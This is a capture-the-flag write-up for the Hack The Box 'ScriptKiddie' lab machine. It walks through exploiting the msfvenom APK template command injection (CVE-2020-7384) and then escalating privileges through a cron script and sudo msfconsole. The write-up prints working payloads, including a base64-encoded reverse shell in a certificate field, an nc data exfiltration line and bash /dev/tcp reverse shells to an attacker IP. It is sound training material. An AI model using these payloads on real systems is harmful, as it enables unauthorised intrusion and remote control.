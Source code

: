 ![](scriptKiddie_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="http://www.hackthebox.eu/badge/image/391067"></img></a>
</p>

# Enumeration

__IP-ADDR:__ 10.10.10.226 scriptKiddie.htb

__nmap scan:__
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Port 5000

__Service:__ Werkzeug httpd 0.16.1 (Python 3.8.5)

![](screenshots/web-page.png)

* There is no command injection or lfi.
* searchsploit and nmap don't have any known vulnerability.
* msfvenom have a temlate option which is vulnerable.
  * __Description:__ This module exploits a command injection vulnerability in Metasploit Framework's msfvenom payload generator when using a crafted APK file as an Android payload template. Affects Metasploit Framework <= 6.0.11 and Metasploit Pro <= 4.18.0. The file produced by this module is a relatively empty yet valid-enough APK file. To trigger the vulnerability, the victim user should do the following: `msfvenom -p android/<...> -x` 
  * [CVE-2020-7384 Rapid7](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/)
    * msf module: `exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection`
  * [Exploit script](https://www.exploit-db.com/exploits/49491)

# Foothold:command_injection

## msfvenom apk injection

The command vulnerability is in step 2 of this process from [apk.rb#L194-L197](https://github.com/rapid7/metasploit-framework/blob/64695f1/lib/msf/core/payload/apk.rb#L194-L197). keytool is executed using the following command line:
```rb
      run_cmd("keytool -genkey -v -keystore #{keystore} \
      -alias #{keyalias} -storepass #{storepass} -keypass #{keypass} -keyalg RSA \
      -keysize 2048 -startdate '#{orig_cert_startdate}' \
      -validity #{orig_cert_validity} -dname '#{orig_cert_dname}'")
```

In particular, the value for `orig_cert_dname` is obtained from step 1 of the process, where the original APK was parsed and the "Owner" field was extracted from the APK's signature.

This command string is passed to `Open3.popen3()` in [apk.rb#L29-L36](https://github.com/rapid7/metasploit-framework/blob/64695f1/lib/msf/core/payload/apk.rb#L29-L36). When this function receives a single string parameter (as opposed to multiple parameters) it effectively acts as a `system()` function.
```rb
  def run_cmd(cmd)
    begin
      stdin, stdout, stderr = Open3.popen3(cmd)
      return stdout.read + stderr.read
    rescue Errno::ENOENT
      return nil
    end
  end
```

This gives rise to a command injection vulnerability. If a crafted APK file has a signature with an __"Owner"__ field containing:
```bash
#A single quote (to escape the single-quoted string)
#Followed by shell metacharacters
#and run_cmd() function see it like that
-dname '#{CN='|echo cGluZyAtYyAyIDEwLjEwLjE1Ljcx | base64 -d | sh #}'
```

When that APK file is used as an msfvenom template, arbitrary commands can be executed on the msfvenom user's system.

* [Detailed advisories](https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md)
* [commit changes](https://github.com/rapid7/metasploit-framework/pull/14288/commits/d1528cc0aa48ac667304f1e5116a784fe2dc8f15)

![](screenshots/template-injection.png)

## Exploit

This is a command injection vulnerability. When user supply a template apk to msfvenom , it takes application read it's certificate and use cert's owner for resign apk but don't check for strings certificate.

1. Create empty apk file
```bash
touch empty && zip -j payload.apk empty
```

![](screenshots/create-apk.png)

2. Create cert and add injection payload in `-dname` field
```bash
keytool -genkey -keystore ./signing.keystore -alias "signing.key" -storepass "password" -keypass "password" -keyalg RSA -keysize 2048 -dname "CN='|echo L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE1LjcxLzQxNDEgMD4mMScK | base64 -d | sh #"
```

![](screenshots/create-cert.png)

3. sign the apk with created cert
```bash
jarsigner -sigalg SHA1withRSA -digestalg SHA1 -keystore ./signing.keystore -storepass "password" -keypass "password" payload.apk "signing.key"
```

![](screenshots/signed-apk.png)

and this apk execute arbitrary code in the server and give reverse shell

![](screenshots/get-shell.png)

# Privesc:msfconsole_with_sudo

* Get shell as user "kid"
* user "pwn" have a bash script that taking content from user "kid" home folder.

![](screenshots/pwn-script.png)

* This can lead to command injection.
* Script execute by pwn cron when `/home/kid/logs/hackers` file get some data.
* using some extra words before payload to bypass `cut` command `cut -d' ' -f3-`
```bash
null null ;id|nc 10.10.15.71 4141 #
```

![](screenshots/cut-bypass.png)

pspy output

![](screenshots/pspy-lookup.png)

reverse shell
```bash
null null ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.15.71/4141 0>&1' #
```

![](screenshots/pwn-shell.png)

<!--echo "null null ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.15.71/4141 0>&1' #" > /home/kid/logs/hackers-->

## msfconsole with sudo

User have right to run `/opt/metasploit-framework-6.0.9/msfconsole` with sudo as root with no password
```bash
pwn@scriptkiddie:~$ sudo -l
sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

and inside msfconsole user "pwn" is root
```bash
sudo -u root /opt/metasploit-framework-6.0.9/msfconsole
```

![](screenshots/msf-root.png)
